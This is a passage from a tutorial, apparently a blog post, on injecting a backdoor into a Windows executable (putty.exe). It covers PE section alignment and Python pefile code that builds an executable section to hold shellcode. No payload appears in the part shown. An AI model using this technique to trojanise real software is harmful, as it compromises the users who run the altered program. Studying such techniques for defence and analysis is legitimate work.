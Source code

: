 Finally, we have to take care of the alignment. The value swe will set into the section header should be aligned to the value set into the `OPTIONAL_HEADER` of the PE file.

* `SectionAligment`, section alignment in memory. 
* `FileAligment`, section alignment on the disk. 

Not clear enough ? Let's say `FileAligment` equals 512 bytes and `SectionAligment` equals 4096 bytes. If you new section contains 515 bytes on the disk, the section size value on the disk (`SizeOfRawData`) will be 1024 because 515 > 512, so we round it up. Same thing for the `VirtualSize`, it will be equal to 4096 bytes, because 515 < 4096. Here is how to find the right values for you:

```bash
(((value_to_align + alignment - 1) / alignment) * alignment)

# Shellcode size = 12345 bytes
# FileAligment = 512 bytes
# SectionAligment = 4096 bytes

SizeOfRawData = (((12345 + 512 - 1) / 512) * 512)
VirtualSize = (((12345 + 4096 - 1) / 4096) * 4096)
```

In the follwing sections, I will describe the different steps I used to inject a backdoor into an executable. The full code will be available at the end of the tutorial.

### Create the Section Header

Now, we can start. We already can set 4 values in our header. I assume that our shellcode will be smaller than 4096 bytes.

```python
name            = ".axc"
virtual_size    = 0x1000 		# 4096 octets
raw_size        = 0x1000		# 4096 octets
characteristics = 0xE0000020 	# READ | WRITE | EXECUTE | CODE
```

For `VirtualAddress` and `PointerToRawData`, we have to be sure that we don't overwrite the other sections. If one of the pointer point to an existing header, we would corrupt the executable. To avoid this issue, we will set our pointers to go after the last section of the executable.

```python
import pefile

exe_path = "putty.exe"
pe = pefile.PE(exe_path)
number_of_section = pe.FILE_HEADER.NumberOfSections
last_section = number_of_section - 1

virtual_offset = pe.sections[last_section].VirtualAddress + pe.sections[last_section].Misc_VirtualSize
raw_offset = pe.sections[last_section].PointerToRawData + pe.sections[last_section].SizeOfRawData
```

Now, the new section will be located right after the last section on the disk and in memory. To comply with the alignment, we will modify the code to dynamically compute the right values for the section size.
